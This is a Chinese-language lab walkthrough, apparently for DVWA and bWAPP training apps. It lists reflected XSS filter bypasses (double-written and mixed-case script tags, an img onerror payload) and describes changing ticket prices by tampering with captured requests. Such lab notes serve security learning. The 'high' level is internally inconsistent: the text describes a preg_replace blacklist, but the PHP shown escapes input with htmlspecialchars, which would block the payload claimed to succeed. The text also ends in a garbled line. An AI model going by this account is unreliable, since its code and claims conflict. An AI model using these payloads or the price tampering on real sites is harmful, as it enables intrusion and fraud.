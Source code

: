 - 输入

  ```javascript
  <sc<script>ript>alert(/xss/)</script>
  ```

  或者

  ```javascript
  <ScRipt>alert(/xss/)</script>
  ```

  均可成功弹框



## high
- High级别的代码同样使用黑名单过滤输入，preg_replace() 函数用于正则表达式的搜索和替换，这使得双写绕过、大小写混淆绕过（正则表达式中i表示不区分大小写）不再有效。虽然无法使用script标签注入XSS代码，但是可以通过img、body等标签的事件或者iframe等标签的src注入恶意的js代码

  ```php
  <?php  
   
  // Is there any input?  
  if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {  
      // Check Anti-CSRF token  
  checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );  
    
      // Get input  
      $name = htmlspecialchars( $_GET[ 'name' ] );  
    
      // Feedback for end user  
      $html .= "<pre>Hello ${name}</pre>";  
  }  
    
  // Generate Anti-CSRF token  
  generateSessionToken();  
    
  ?>  
  ```

- 输入

  ```javascript
  <img src=1 onerror=alert(/xss/)>
  ```

  可成功弹框

# A4 - Insecure DOR (Order Tickets)
- 教程、讲解网上找不到，说说自己玩的过程吧
  ![](http://ozhtfx691.bkt.clouddn.com/bwapp/A4IWD1GFCL_S@$%28B4%28%29YS~U@O.png)
- 通过抓包发现输入框只有票数，但票价是可以自己定义的
  ![](http://ozhtfx691.bkt.clouddn.com/bwapp/A41510821444%281%29.png)
- 算㊣解不.....
